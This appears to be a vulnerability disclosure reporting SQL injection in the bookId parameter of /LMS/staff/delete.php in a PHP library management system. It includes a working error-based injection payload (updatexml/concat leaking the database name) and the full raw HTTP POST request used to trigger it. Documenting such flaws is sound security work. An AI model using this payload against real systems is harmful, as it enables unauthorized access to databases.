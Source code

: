 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/staff/delete.php

Vulnerability location: /LMS/staff/delete.php, bookId

[+] Payload: delete=&bookId=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> bookId

```sql
POST /LMS/staff/delete.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

delete=&bookId=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/180452871-5c0dc40e-2e35-4eed-b4eb-91c18f4182a7.png)
